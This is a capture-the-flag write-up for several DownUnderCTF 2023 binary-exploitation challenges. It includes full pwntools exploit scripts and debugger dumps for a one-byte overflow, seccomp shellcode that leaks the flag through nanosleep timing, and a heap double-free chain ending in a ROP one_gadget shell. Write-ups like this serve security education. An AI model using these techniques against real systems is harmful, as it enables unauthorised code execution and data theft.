



Celebrate independence day with DownunderCTF. 

Given files can be found at: 

# [pwn/beginner 100] downunderflow

We input index as an `int` but it will be cast into `unsigned short`, where the higher 2 bytes are ommited. Therefore, we want to input a negative int with 2 lower byte being `0007`, such as `0xffff0007`

flag: `DUCTF{-65529_==_7_(mod_65536)}`

# [pwn/beginner 100] one byte

The return procedure is as following. 

```c
 ► 0x5656a28b <main+93>                    add    esp, 0x10
   0x5656a28e <main+96>                    mov    eax, 0
   0x5656a293 <main+101>                   lea    esp, [ebp - 8]
   0x5656a296 <main+104>                   pop    ecx
   0x5656a297 <main+105>                   pop    ebx
   0x5656a298 <main+106>                   pop    ebp
   0x5656a299 <main+107>                   lea    esp, [ecx - 4]
   0x5656a29c <main+110>                   ret
```

`ecx` is poped from stack and used to calculate return address. Using the one-byte overflow we can control `ecx` and point return address to our buffer.

For instance, with this stack, we can changed saved `ecx` from `0xff971a50` to `0xff971a24` to win. 

```c
pwndbg> tel 0xff971a20	# buffer
00:0000│ ecx 0xff971a20 —▸ 0x56627203 (win) ◂— push ebp
01:0004│     0xff971a24 ◂— 0x61616161 ('aaaa')
... ↓        2 skipped
04:0010│     0xff971a30 —▸ 0xff971a50 ◂— 0x1	# saved ecx
05:0014│     0xff971a34 —▸ 0xf7f4e000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x229dac
06:0018│ ebp 0xff971a38 —▸ 0xf7fa3020 (_rtld_global) —▸ 0xf7fa3a40 —▸ 0x56626000 ◂— 0x464c457f
```

Note that only the least sifnificant nibble in stack address is static, so we might have to run the solve script serveral times (~16 times).

`solve.py`:

```python
#!/usr/bin/env python3
from pwn import *

context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu bash -c'.split()
context.arch = 'i386'

host, port = 'nc 2023.ductf.dev 30018'.split()[1:]
port = int(port)

elf = ELF('./onebyte')

script = '''
# brva 0x0001286
brva 0x000128B
c
'''

if args.LOCAL:
    p = process(elf.path)
elif args.GDB:
    p = gdb.debug(elf.path, gdbscript=script)
else:
    p = remote(host, port)
    
p.recvuntil(b'Free junk: ')
elf.address = int(p.recvline(), 16) - 0x11bd
win = elf.sym['win']

payload = p32(win) + b'a'*12 #+ b'\x84'
p.sendafter(b'Your turn: ', payload)

p.interactive()
# DUCTF{all_1t_t4k3s_is_0n3!}
```


# [pwn/easy 166] great escape

```c
$ seccomp-tools dump ./jail
what is your escape plan?
 > cc
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x08 0xc000003e  if (A != ARCH_X86_64) goto 0010
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x05 0xffffffff  if (A != 0xffffffff) goto 0010
 0005: 0x15 0x03 0x00 0x00000000  if (A == read) goto 0009
 0006: 0x15 0x02 0x00 0x00000023  if (A == nanosleep) goto 0009
 0007: 0x15 0x01 0x00 0x0000003c  if (A == exit) goto 0009
 0008: 0x15 0x00 0x01 0x00000101  if (A != openat) goto 0010
 0009: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0010: 0x06 0x00 0x00 0x00000000  return KILL
```

The program executes our shellcode that limited to syscall `read`, `nanosleep`, `exit` and `openat`, and the challenge gives the path of the flag is at `/chal/flag.txt`.

Knowing the absolute path, we can open flag with `openat` and `read` the content of it into memory. We can't print the flag normally, but we can make use of `nanosleep` to leak it the more bizarre way. In particular, we can pass each byte of the flag to `nanosleep`  as argument and count the timming to get the byte. 

```c
int nanosleep(const struct timespec *req,
                     struct timespec *_Nullable rem);
```

`nanosleep` is `sleep` with nanosecond precision. `rem` param can be `null`. `timespec` struct is as following:

```c
              struct timespec {
                  time_t  tv_sec;  /* Seconds */	
                  long    tv_nsec; /* Nanoseconds */
              };
```

`time_t` is alias of `long`, so the struct take `0x10` byte. 

Actually using the whole byte as `tv_sec` is time consuming and may get timeout, so I use half a byte at a time. 

`solve.py:`

```python
#!/usr/bin/env python3
from pwn import *
import time

context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu bash -c'.split()
context.arch = 'amd64'

host, port = 'nc 2023.ductf.dev 30010'.split()[1:]
port = int(port)

elf = ELF('./jail')

script = '''
breakrva 0x000000000001377
c
'''

def exp(offset):
    p = remote(host, port)
    # p = process(elf.path)
    # p = gdb.debug(elf.path, gdbscript=script)
    
    shr = 0
    if offset%2 == 0:
        shr = 4
    offset //= 2
    
    sc = shellcraft.openat(constants.AT_FDCWD, './flag.txt', 0)
    # sc = shellcraft.openat(0, '/chal/flag.txt', 0)
    sc += shellcraft.read('rax', 'rsp', 0x100)
    sc += f"""
        push 0
        push 0
        mov al, BYTE PTR [rsi+{offset}]    
        shr al, {shr}
        and al, 0xf
        mov [rsp], al
    """
    sc += shellcraft.nanosleep('rsp', 0)
    sc += shellcraft.exit(1)
    sc = asm(sc)

    # log.info("len: " + hex(len(sc)))
    start = time.time()
    p.sendlineafter(b'> ', sc)
    while 1: 
        try: 
            p.sendline()
            sleep(0.2)
        except:
            end = time.time()
            log.info(f"attempt {offset}")
            log.info("time: " + str(end-start))
            log.info("time: " + str(int(end-start)))
            return int(end-start)

flag = ''
off = 0
cur_byte = 0
while (1):
    if off%2 == 0:
        cur_byte += exp(off)<<4
    else:
        cur_byte += exp(off)
        flag += chr(cur_byte)
        log.info("flag: " + flag)
        cur_byte = 0
    
    off += 1

p.interactive()
```

```c
[ reduced ]
[+] Opening connection to 2023.ductf.dev on port 30010: Done
[*] attempt 43
[*] time: 13.240954875946045
[*] time: 13
[*] flag: DUCTF{S1de\x00Ch@nN3l_aTT4ckS_aRe_Pr3tTy_c00L!}
[+] Opening connection to 2023.ductf.dev on port 30010: Done
[*] attempt 44
[*] time: 0.40137457847595215
[*] time: 0
[+] Opening connection to 2023.ductf.dev on port 30010: Done
[*] attempt 44
[*] time: 0.31714510917663574
[*] time: 0
[*] flag: DUCTF{S1de\x00Ch@nN3l_aTT4ckS_aRe_Pr3tTy_c00L!}\x00 
```

One character is failed but we can guess it :P

flag: `DUCTF{S1de_Ch@nN3l_aTT4ckS_aRe_Pr3tTy_c00L!}`

# [pwn/hard 316] baby CRM

CRM stands for Customer relationship management(?)

The program provides functions to add customers and add orders to a customer.

Some suspicious point I found in the first code reading:

1. `description` field in `Order` use `char` instead of string
2. `fill_buf()` doesn't terminate buf
3. order editing in `alter_customer()` use [] operator instead of `at(idx)`
4. `show_customer()` doesn't have length check
5. `fwrite()` writes fixed `0x50` bytes instead of check buf's length

## heap leak

(4) seems promise for a heap leak, but in practice, it is barely possible to find a block of memory that fits `Customer` object frame. 

After messing around with program's functions (by spamming each option) without any direction, I accidently got a double free `free(): double free detected in tcache 2` with this!

```python
for i in range(15):
    add_customer(b'\x00')
# add_customer(b'\x00'*0x30)
# add_customer(b'\x00'*0x10)
# edit_name(0, b'\x00'*0x10)
# edit_name(1, b'\x00'*0x20)
# edit_name(2, b'\x00'*0x20)
add_order(0, b'2.121995791e-314', b' '+b'x'*0x4f)
add_order(0, b'4.2030e4', b' '+b'y'*0x4f)
# edit_order(0, 0, b' '+b'c'*0x4f)
for i in range(10):
    print_help(False)
show(0)
```

Double free is done by using `help()` twice after selecting a customer in `alter_customer()`. It turns out that in `alter_customer()`, `rbp-0x80` is occupied by a pointer to an allocated `Customer`, then in `help()`, that `rbp-0x80` is reused to inflate a local `Order`. 

```c
unsigned __int64 alter_customer(void)
{	
  // [...]
  Customer *v11; // [rsp+20h] [rbp-80h]
  Order *v12; // [rsp+28h] [rbp-78h]
  char v13[32]; // [rsp+30h] [rbp-70h] BYREF
	// [...]
  v11 = *(Customer **)std::vector<Customer *>::operator[](customers, v8);
	// [...]
  return v15 - __readfsqword(0x28u);
}
```

```c
unsigned __int64 help(void)
{
  // [...]
  char v4[16]; // [rsp+10h] [rbp-80h] BYREF
  char v5[88]; // [rsp+20h] [rbp-70h] BYREF
  // [...]
  Order::Order((Order *)v4);
  Customer::Customer((Customer *)v5);
  // [...]
  Customer::~Customer((Customer *)v5);
  Order::~Order((Order *)v4);

  return v6 - __readfsqword(0x28u);
}
```

Then when it call `~Order()`, it actually frees a `Customer` from previous stack frame, hence the double free. Moreover, freed customer is not removed from its vector `customers`.

```c
void __fastcall Order::~Order(void **this)
{
  if ( *this )
    operator delete(*this, 1uLL);
}
```

Note that `Customer` and order's `description` field both use same size of allocation at `0x50`. Therefore, after freeing a customer, we can allocate an order and fully control customer's fields.


Before allocating new order:

```c 
pwndbg> tel &customers
00:0000│  0x55be7ef8d2e0 (customers) —▸ 0x55be7f3f2580 —▸ 0x55be7f3f1eb0 —▸ 0x55be7f3f1f80 ◂— 'aaaaaaaaaaaaaaaa'
01:0008│  0x55be7ef8d2e8 (customers+8) —▸ 0x55be7f3f25d0 ◂— 0x0
02:0010│  0x55be7ef8d2f0 (customers+16) —▸ 0x55be7f3f2600 ◂— 0x0
pwndbg> tel 0x55be7f3f2580
00:0000│  0x55be7f3f2580 —▸ 0x55be7f3f1eb0 —▸ 0x55be7f3f1f80 ◂— 'aaaaaaaaaaaaaaaa'
01:0008│  0x55be7f3f2588 —▸ 0x55be7f3f1fb0 —▸ 0x55be7f3f2050 ◂— 'aaaaaaaaaaaaaaaa'
02:0010│  0x55be7f3f2590 —▸ 0x55be7f3f2080 —▸ 0x55be7f3f2100 ◂— 'aaaaaaaaaaaaaaaa'
03:0018│  0x55be7f3f2598 —▸ 0x55be7f3f2160 —▸ 0x55be7f3f21c0 ◂— 'aaaaaaaaaaaaaaaa'
```

After freeing `customers[0]`:

```c
pwndbg> tel &customers
00:0000│ rax rdi 0x55be7ef8d2e0 (customers) —▸ 0x55be7f3f2580 —▸ 0x55be7f3f1eb0 ◂— 0x55be7f3f1
01:0008│         0x55be7ef8d2e8 (customers+8) —▸ 0x55be7f3f25d0 ◂— 0x0
02:0010│         0x55be7ef8d2f0 (customers+16) —▸ 0x55be7f3f2600 ◂— 0x0
pwndbg> tel 0x55be7f3f2580
00:0000│  0x55be7f3f2580 —▸ 0x55be7f3f1eb0 ◂— 0x55be7f3f1	# customers[0] is freed
01:0008│  0x55be7f3f2588 —▸ 0x55be7f3f1fb0 —▸ 0x55be7f3f2050 ◂— 'aaaaaaaaaaaaaaaa'
02:0010│  0x55be7f3f2590 —▸ 0x55be7f3f2080 —▸ 0x55be7f3f2100 ◂— 'aaaaaaaaaaaaaaaa'
03:0018│  0x55be7f3f2598 —▸ 0x55be7f3f2160 —▸ 0x55be7f3f21c0 ◂— 'aaaaaaaaaaaaaaaa'
```

After adding new order:

```c
pwndbg> tel &customers
00:0000│ rax rdi 0x55be7ef8d2e0 (customers) —▸ 0x55be7f3f2580 —▸ 0x55be7f3f1eb0 ◂— 'got you\n'
01:0008│         0x55be7ef8d2e8 (customers+8) —▸ 0x55be7f3f25d0 ◂— 0x0
02:0010│         0x55be7ef8d2f0 (customers+16) —▸ 0x55be7f3f2600 ◂— 0x0
pwndbg> tel 0x55be7f3f2580
00:0000│  0x55be7f3f2580 —▸ 0x55be7f3f1eb0 ◂— 'got you\n'	# new order
01:0008│  0x55be7f3f2588 —▸ 0x55be7f3f1fb0 —▸ 0x55be7f3f2050 ◂— 'aaaaaaaaaaaaaaaa'
02:0010│  0x55be7f3f2590 —▸ 0x55be7f3f2080 —▸ 0x55be7f3f2100 ◂— 'aaaaaaaaaaaaaaaa'
03:0018│  0x55be7f3f2598 —▸ 0x55be7f3f2160 —▸ 0x55be7f3f21c0 ◂— 'aaaaaaaaaaaaaaaa'
pwndbg> tel 0x55be7f3f1eb0
00:0000│  0x55be7f3f1eb0 ◂— 'got you\n'
01:0008│  0x55be7f3f1eb8 ◂— 0x0
02:0010│  0x55be7f3f1ec0 ◂— 0x1e
03:0018│  0x55be7f3f1ec8 ◂— 0x0
04:0020│  0x55be7f3f1ed0 ◂— 0x0
05:0028│  0x55be7f3f1ed8 —▸ 0x55be7f3f1ee8 ◂— 0x0	# leak this address
06:0030│  0x55be7f3f1ee0 ◂— 0x0
07:0038│  0x55be7f3f1ee8 ◂— 0x0
```


Now because order's `print()` use `fwrite()` with fixed length `0x50`, we can print the new order to leak heap address.

## leak libc

Now suspect (1) (order's `description` use `char*` instead of `string`) comes into play. If order's `description` uses `string` too, I couldn't leak anything. The picture below illustrates `std::string` structure. `string`'s first field holds a pointer to the buffer, while second field (`+0x8`) is the buffer's length and third field (`+0x10`) is the capacity of allocated space. By tampering `string` structure, we can leak any value pointed by a heap address.



I free a chunk into unsorted bin and leak libc address using it. Note that when string updates new buffer with length exceeding current capacity (third field), it will free current buffer and allocate new buffer with bigger size.

```python
add_customer(b'a'*0x400)
edit_name(10, b'a'*0x500)
edit_order(1, 0, p64(0x13cd0+heap) + p64(0x20)*2)
show(0)
```

## stack leak, write ROP chain and get shell

With free primitive you can create a tcache poisoning, but recall `__free_hook` is removed since 2.32 and the provided glibc is at version 2.35, so I came with another approach that leak stack and write my ROP chain in return address.

With same method as libc leaking, I leak stack using `environ` variable.

```python
edit_name(3, b'\x00')
print_help()
add_order(3, b'0', b'cc')
edit_order(3, 0, p64(lib.sym['environ']) + p64(0x20)*2)
show(3)
```

> Actually to prepare a customer for freeing, you can just call `alter_customer` with default switch case, like option `5`, to keep other things untouched. But I didn't notice that during the contest. Stupid me.

## exploit script

> Code is ugly but I'm lazy to refine.

```python
#!/usr/bin/env python3
from pwn import *

context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu bash -c'.split()
context.arch = 'amd64'

host, port = 'nc 2023.ductf.dev 30014'.split()[1:]
port = int(port)

elf = ELF('./baby-crm_patched')
lib = ELF('./libc.so.6')

script = '''
# help
# breakrva 0x000000000002F32
# new order
# breakrva 0x0000000000028CE
# show customer
breakrva 0x000000000002E4A  
# breakrva 0x000000000003461
# edit name
breakrva 0x000000000002B97
# free Order
# breakrva 0x00000000000305C
# breakrva 0x000000000002504
# check chosen customer 
# breakrva 0x000000000002B97
## edit order 
# breakrva 0x000000000002D26
c
'''
if args.LOCAL:
    p = process(elf.path)
elif args.GDB:
    p = gdb.debug(elf.path, gdbscript=script)
else:
    p = remote(host, port)

pd = lambda x: struct.pack('d', x)  # pack and unpack double value
ud = lambda x: struct.unpack('d', x)[0]
pf = lambda x: struct.pack('f', x)  # pack and unpack float value
uf = lambda x: struct.unpack('f', x)[0]

def cmd(c):
    p.sendlineafter(b'> ', c)
    
def arg(a):
    p.sendlineafter(b': ', a)
    
def add_customer(name):
    cmd(b'1')
    arg(name)

def edit_name(idx, name):
    cmd(b'2')
    arg(str(idx).encode())
    cmd(b'1')
    arg(name)
        
def change_des(idx, des):
    cmd(b'2')
    arg(str(idx).encode())
    cmd(b'2')
    arg(des)
        
def add_order(idx, value, des):
    cmd(b'2')
    arg(str(idx).encode())
    cmd(b'3')
    payload = value + des
    if len(des) == 0x50:
        p.sendafter(b': ', payload)
    else: 
        p.sendlineafter(b': ', payload)
        
def edit_order(idx, order_idx, des):
    cmd(b'2')
    arg(str(idx).encode())
    cmd(b'4')
    arg(str(order_idx).encode())
    arg(des)  
          
def show(idx):
    cmd(b'3')
    arg(str(idx).encode())
    
def print_help(order=True):
    cmd(b'4')
    if order:
        cmd(b'1')
    else:
        cmd(b'2')

def free(idx):
    edit_name(idx, b'kkkk')
    print_help()

# pls use show() as a pause

# heap leak 
for i in range(10):
    add_customer(b'\x00')
edit_name(0, b'\x00'*0x10)  # put customers[0] at [rbp-0x70]
print_help()    # free customers[0]
# show(1)

add_order(1, b'0', b'got you')  # new order's buffer takes place of customers[0]
show(1)
p.recvuntil(b'Name')
p.recv(0x5e-4)
heap = u64(p.recv(8)) - 0x11ee8
log.info("heap leak: " + hex(heap))

# libc leak
add_customer(b'a'*0x400) 
edit_name(10, b'a'*0x500)
# show(2)
edit_order(1, 0, p64(0x13cd0+heap) + p64(0x20)*2)
show(0)
p.recvuntil(b'Name: ')
lib.address = u64(p.recv(8)) - 0x219ce0
log.info("libc leak: " + hex(lib.address))
# show(0)

# stack leak
edit_name(3, b'\x00')
print_help()
add_order(3, b'0', b'cc')
edit_order(3, 0, p64(lib.sym['environ']) + p64(0x20)*2)
show(3)
p.recvuntil(b'Name: ')
stack = u64(p.recv(8))
log.info("stack leaked: " + hex(stack))

# write ROP chain

# 0x50a37 posix_spawn(rsp+0x1c, "/bin/sh", 0, rbp, rsp+0x60, environ)
# constraints:
#   rsp & 0xf == 0
#   rcx == NULL
#   rbp == NULL || (u16)[rbp] == NULL

one_gadget = 0x50a37 + lib.address
rcx = 0x000ecab3 + lib.address
rbp = 0x001bbd00 + lib.address
ret = 0x001bc02d + lib.address
rop = b''.join(map(p64, [rcx, 0, rbp, 0, one_gadget]))

edit_name(4, b'\x00')
print_help()
add_order(4, b'0', b'cc')
edit_order(4, 0, p64(stack-0x140) + p64(0x100)*2)
edit_name(4, rop)
 

p.interactive()

# DUCTF{0u7_0f_5c0p3_0u7_0f_m1nd}
```


# other challenges

I could not solve durings the contest but I will do them later. 

## binary mail

Functions: 

1. register: create `/tmp/{username}`, then save `[taglen][password]` in the file
2. view mail: open user's file
   - read `recipient` from file
3. send mail: 
   - open `recipient`'s file, append `[taglen][user's password]` 
   - read message, append `[taglen][message]`

`FROM ` field not poperly filled when sending a mail

`msg = [tag_from][username][tag_msg][message]`

## roppenheimer

`std::unordered_map<unsigned int, uint64_t> atoms;`

sus: 

```c
    std::pair<unsigned int, uint64_t> elems[MAX_COLLIDE - 1];
    copy(atoms.begin(bucket), atoms.end(bucket), elems);
```

first idea: create more than `MAX_COLLIDE` colisions -> rop



it is a linked list

```c
pwndbg> tel &atoms
00:0000│ rax rdi 0x40a5c0 (atoms) —▸ 0x1cef3d0 —▸ 0x1ceef40 —▸ 0x1ceeeb0 —▸ 0x1cef0c0 ◂— ...
01:0008│         0x40a5c8 (atoms+8) ◂— 0x3b /* ';' */
02:0010│         0x40a5d0 (atoms+16) —▸ 0x1cef5d0 —▸ 0x1cef5b0 —▸ 0x1cef3b0 —▸ 0x1cef0a0 ◂— ...
03:0018│         0x40a5d8 (atoms+24) ◂— 0x20 /* ' ' */	# size
pwndbg> tel 0x1cef5d0	# head
00:0000│  0x1cef5d0 —▸ 0x1cef5b0 —▸ 0x1cef3b0 —▸ 0x1cef0a0 —▸ 0x1cef080 ◂— ...	# next pointer
01:0008│  0x1cef5d8 ◂— 0x1f				# atom
02:0010│  0x1cef5e0 ◂— 0xcafebabe	# data
03:0018│  0x1cef5e8 ◂— 0xea21
04:0020│  0x1cef5f0 ◂— 0x0
... ↓     3 skipped
```

```c
pwndbg> tel 0x7ffeaa2daa00	# end(bucket)
00:0000│         0x7ffeaa2daa00 ◂— 0x0
01:0008│         0x7ffeaa2daa08 ◂— 0x1
02:0010│         0x7ffeaa2daa10 ◂— 0x3b /* ';' */
03:0018│         0x7ffeaa2daa18 ◂— 0x200000000
04:0020│ rax rsi 0x7ffeaa2daa20 —▸ 0x169df40 —▸ 0x169deb0 —▸ 0x169e0c0 —▸ 0x169e1d0 ◂— ...	# begin(bucket)
05:0028│         0x7ffeaa2daa28 ◂— 0x1
06:0030│         0x7ffeaa2daa30 ◂— 0x3b /* ';' */
07:0038│         0x7ffeaa2daa38 ◂— 0x1
```



## confusing

## shifty mem

## return to monke

## vrooom vroom 

## safe calculator

```c
pwndbg> dq 0x7ffe2df7f580
00007ffe2df7f580     6161616261616161 6161616461616163
00007ffe2df7f590     6161616661616165 6161616861616167
00007ffe2df7f5a0     3c20203761616169 7d6c3f4342424242
00007ffe2df7f5b0     0000000000000000 059f2cb0c57b0600
```

```c
pwndbg> dq 0x7ffe2df7f580
00007ffe2df7f580     6161616261616161 6161616461616163
00007ffe2df7f590     6161616661616165 6161616861616167
00007ffe2df7f5a0     3c20203761616169 7d6c3f0042424242
00007ffe2df7f5b0     0000000000000000 059f2cb0c57b0600
```

```c
pwndbg> dq 0x7ffe2df7f580
00007ffe2df7f580     00007ffe2df7f5c0 00007ffe2df7f6f8
00007ffe2df7f590     000055d532c612c5 000055d532c611fe
00007ffe2df7f5a0     3c20203700001df0 7d6c3f0000000539
00007ffe2df7f5b0     0000000000000000 059f2cb0c57b0600
```


